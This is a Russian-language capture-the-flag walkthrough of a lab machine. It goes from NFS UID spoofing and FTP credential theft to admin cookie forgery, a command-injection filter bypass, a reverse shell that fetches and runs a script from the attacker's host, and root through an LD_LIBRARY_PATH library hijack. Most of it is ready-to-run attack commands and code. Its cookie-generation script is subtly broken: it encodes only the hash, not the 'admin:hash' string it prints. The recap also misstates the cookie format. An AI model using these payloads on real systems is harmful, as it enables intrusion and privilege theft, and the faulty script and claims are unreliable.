# Hijacking


## Recon

```bash
sudo nmap -sS -sV -sC --min-rate=1000 <TARGET IP>
```

```text
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
53/tcp   filtered domain
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open     rpcbind 2-4 (RPC #100000)
2049/tcp open     nfs_acl 2-3 (RPC #100227)
```

Из вывода `rpcinfo` видно, что поднят NFS (`nfs`, `mountd`, `nlockmgr`).

## NFS

Смотрим экспорты:

```bash
showmount -e <TARGET IP>
```

```text
Export list for <TARGET IP>:
/mnt/share *
```

Монтируем:

```bash
sudo mount -t nfs <TARGET IP>:/mnt/share /tmp/mnt/nfs
```

Доступ не даётся:



Видим, что каталог принадлежит пользователю с UID `1003`:



Создаём локального пользователя с тем же UID:

```bash
sudo useradd -u 1003 test
```

Заходим под ним и читаем данные для FTP:



Креды FTP:

```text
ftpuser:W3stV1rg1n14M0un741nM4m4
```

Подключаемся:

```bash
ftp <TARGET IP>
```

Смотрим содержимое:



Интересуют `.from_admin.txt` и `.passwords_list.txt`.

`.from_admin.txt`:

```text
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site,
these passwords don't appear on any wordlist i tested so far,
so i encourage you to use them, even me i'm using one of those.

NOTE To rick: good job on limiting login attempts, it works like a charm,
this will prevent any future brute forcing.
```

Из сообщения понятно, что брутфорс логина не сработает из-за лимита попыток. Пытался найти закономерность сброса лимита — её нет.

## Анализ cookie

Замечаем, что cookie — это base64:



По сути это `base64(username:md5(password)`. Пишем скрипт, чтобы превратить список паролей в набор cookie:

```python
import hashlib
import base64

with open('passwords_list.txt', 'r') as f:
    passwords = f.read().splitlines()

with open('cookies.txt', 'w') as cooky:
    for pas in passwords:
        md5_hash = hashlib.md5(pas.encode()).hexdigest()
        cookie = f'admin:{md5_hash}'
        b64 = base64.b64encode(md5_hash.encode()).decode()
        cooky.write(b64 + '\n')
        print(f"[*] {cookie} -> {b64}")
```

Дальше подставляем cookie через Burp Suite на админский эндпоинт.

Находим cookie администратора:



```text
YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU%3d
```

Меняем cookie в браузере и попадаем в админ-панель. Здесь можно запросить информацию о сервисе, который сейчас работает на Linux-сервере:



## Command Injection

Пробуем `cron`:



Пробуем `cron; ls`:



Видим, что стоит блэклист как минимум на `;`.

Проверяем `apache2`:



Это подтверждает, что под капотом скрипт.

Обходим фильтр через `&&`:

```text
apache2&&ls
```

Получаем вывод текущей директории:



## Reverse Shell

Готовим payload:

```bash
echo 'bash -i >& /dev/tcp/<YOUR IP>/4445 0>&1' > shell.sh
```

Запускаем HTTP-сервер:

```bash
python3 -m http.server 8000
```

Используем такой payload в инъекции:

```text
apache2 && wget http://<YOUR IP>:8000/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh
```

Получаем терминал:



В конфиге находим креды:

```php
$username = "rick";
$password = "N3v3rG0nn4G1v3Y0uUp";
```

Можно было и не делать RCE — креды читаются напрямую через инъекцию. Но RCE как альтернативный способ тоже рабочий. Подключаемся по SSH.

`user.txt`:



## PrivEsc

Проверяем `sudo`:

```bash
sudo -l
```



Можем запускать `/usr/sbin/apache2` с указанными аргументами от root.

Смотрим зависимости:

```bash
ldd /usr/sbin/apache2
```



Подменяем первую библиотеку через `LD_LIBRARY_PATH`.

Создаём `/tmp/hijack.c`:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0, 0, 0);
    system("/bin/bash -p");
}
```

Компилируем:

```bash
gcc -shared -fPIC -o /tmp/libcrypt.so.1 /tmp/hijack.c
```

Подменяем и запускаем:

```bash
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

Получаем root.

## Что сделано

- NFS: смонтировали, нашли `.from_admin.txt`
- FTP: зашли по кредам, нашли `passwords_list.txt`
- Веб: поняли, что cookie = `base64(md5(user:pass))`
- Скрипт: сгенерировали cookie из списка паролей
- Burp: подставили cookie, обошли авторизацию
- Command Injection: `apache2&&ls`
- RCE: `wget shell.sh` → reverse shell
- PrivEsc: `LD_LIBRARY_PATH` → root


 NFS → FTP → Web Auth Bypass → Command Injection → PrivEsc
